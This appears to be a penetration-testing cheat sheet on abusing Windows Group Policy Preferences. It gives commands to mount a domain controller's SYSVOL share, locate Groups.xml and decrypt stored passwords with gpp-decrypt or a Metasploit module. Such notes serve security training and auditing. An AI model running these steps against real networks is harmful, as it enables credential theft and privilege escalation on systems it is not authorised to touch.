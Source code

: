 ## [Registry](registry.md)
registry.md


---
## Group Policy Preference

* Group policy preferences allows domain admins to create and deploy across the domain local users and local administrators accounts. *This feature was introduced in Windows 2008 Server*.
* It can be abused by an attacker since the credentials of these accounts are stored encrypted and the public key is published by Microsoft. This leaves the door open to any user to retrieve these files and decrypt the passwords stored in order to elevate access.

* If the machine belongs to a domain and your user has access to `System Volume Information` there might be some sensitive files there.

* First we need to map/mount that drive. In order to do that **we need to know the IP-address of the domain controller**. We can just look in the environment-variables

  ```
  # Output environment-variables
  set

  # Look for the following:
  LOGONSERVER=\\NAMEOFSERVER
  USERDNSDOMAIN=WHATEVER.LOCAL

  # Look up ip-addres
  nslookup nameofserver.whatever.local

  # It will output something like this
  Address:  192.168.1.101

  # Now we mount it
  net use z: \\192.168.1.101\SYSVOL

  # And enter it
  z:

  # Now we search for the groups.xml file
  dir Groups.xml /s
  ```

* If we find the file with a password in it, we can decrypt it like this in Kali
  ```
  gpp-decrypt encryptedpassword
  ```

* Or with [this tool](http://www.sec-1.com/blog/wp-content/uploads/2015/05/gp3finder_v4.0.zip)

* Or with Metasploit:
```
post/windows/gather/credentials/gpp
```
